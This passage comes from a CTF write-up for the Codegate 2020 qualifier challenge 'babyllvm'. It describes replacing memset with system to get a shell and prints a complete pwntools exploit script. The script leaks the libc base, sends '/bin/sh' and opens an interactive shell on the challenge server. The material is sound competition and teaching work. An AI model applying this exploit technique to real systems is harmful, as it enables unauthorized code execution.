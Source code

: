 **Round 3**
6. Since everytime at the start, the program will `memset` the data region with 0s, and `memset` is replaced with `system`, the program will call `system("/bin/sh")`.

You can refer to this exploit written by [@Lord_Idiot](https://twitter.com/__lord_idiot){:target="_blank"}.

```py
#!/usr/bin/python
from pwn import *
import sys

config = {
	"elf" : "/usr/local/bin/python3",
	"libc" : "./libc-2.27.so",#"/lib/x86_64-linux-gnu/libc-2.23.so",
	"HOST" : "58.229.240.181",
	"PORT" : 7777
}

def exploit(r):
	# leak libc
	r.sendlineafter(">>> ", "[.]<<<<<<<<[.,<<<<<<<<]>>>>>>>>>[.>]")
	r.sendafter(chr(0x90), chr(0x30-1))
	r.sendafter(chr(0x80), chr(0x30-1))
	libc_base = u64(r.recvn(6).ljust(8, '\x00'))-libc.symbols["read"]
	log.info("libc_base: {:#x}".format(libc_base))

	# prepare /bin/sh
	r.sendlineafter(">>> ", "+.,>,>,>,>,>,>,>,<<<<<<<"+"[<<<<<<<<[.,<<<<<<<<]>>>>>>>>>.[,>]]")
	r.sendafter(chr(1), "/bin/sh\x00")
	r.sendafter(chr(0x90), chr(0x28-1))
	r.sendafter(chr(0x80), chr(0x28-1))
	r.recvn(1)
	r.send(p64(libc_base+libc.symbols["system"])[:-2])
	r.interactive()

	return

if __name__ == "__main__":
	if "elf" in config.keys() and config["elf"]:
		e = ELF(config["elf"])
	if "libc" in config.keys() and config["libc"]:
		libc = ELF(config["libc"])

	if "remote" in sys.argv:
		r = remote(config["HOST"], config["PORT"])
	else:
		r = process([config["elf"], "./main.py"])

		print util.proc.pidof(r)
		if "debug" in sys.argv:
			pause()

	exploit(r)
```


[challenge]:{{site.baseurl}}/ctfs/codegate-quals-20/babyllvm/challenge.zip